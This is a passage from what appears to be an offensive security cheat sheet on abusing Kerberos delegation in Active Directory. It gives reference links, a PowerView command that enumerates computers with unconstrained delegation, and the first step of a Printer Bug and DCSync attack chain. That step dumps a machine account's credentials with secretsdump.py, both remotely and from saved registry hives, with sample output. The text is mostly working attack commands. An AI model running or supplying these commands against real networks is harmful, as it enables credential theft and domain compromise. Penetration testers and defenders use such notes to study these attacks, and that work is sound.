 # Delegation Abuse

* [https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-kerberos/kerberos-delegations](https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-kerberos/kerberos-delegations)




## Unconstrained Delegation

* [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)

Enumerate:

```
PowerView3 > Get-DomainComputer -Unconstrained | select dnshostname,samaccountname,useraccountcontrol
```



### "Relaying" Kerberos

* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [https://snovvcrash.rocks/2021/05/21/calculating-kerberos-keys.html](https://snovvcrash.rocks/2021/05/21/calculating-kerberos-keys.html)
* [[PDF] From Zero Credential to Full Domain Compromise (Haboob Team)](https://drive.google.com/file/d/1htCGIt1Wcg53zCSGnRk4wfcKOk5A_YDP/view?usp=sharing)


#### Printer Bug + DCSync

Requirements:

* Owned computer account with unconstrained delegation enabled (SRV01).
* Printer bug on a domain controller (DC01).
* Permissions to add an SPN for the owned computer account and a new DNS record in AD.

1\. Grab owned computer account password to calculate its Kerberos AES key. This is done automatically when extracting the password remotely with `secretsdump.py`, or it will be done later by `krbrelayx.py` when providing it the password in hex from local `secretsdump.py` output:

```
 # Remotely
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@SRV01.megacorp.local -ts
...
MEGACORP\SRV01$:aes256-cts-hmac-sha1-96:00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

 # Locally
Cmd > reg.exe save hklm\system system.hive
Cmd > reg.exe save hklm\security security.hive
$ secretsdump.py -system system.hive -security security.hive LOCAL
...
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:<PLAIN_PASSWORD_HEX>
```
